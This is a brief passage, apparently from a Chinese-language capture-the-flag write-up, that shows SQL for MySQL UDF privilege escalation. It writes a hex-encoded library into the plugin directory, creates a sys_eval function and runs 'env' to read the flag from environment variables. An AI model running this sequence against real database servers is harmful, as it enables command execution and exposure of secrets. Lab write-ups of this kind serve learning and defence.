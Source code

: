 然后执行 sql 语句进行 udf 提权

```plain
select @@basedir
# 得到 plugin 路径/usr/lib/mysql/p1ugin
select unhex('xxx')into dumpfile '//usr/lib/mysql/p1ugin/udf.so';
create function sys_eval returns string soname 'udf.so';
select sys_eval("env");
```

flag 在环境变量里

[![](assets/1706770150-ace3675e895988cfd605b0bb6c0cc142.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131153028-9b9a9e20-c00a-1.png)

## Misc

### 2024 签到题
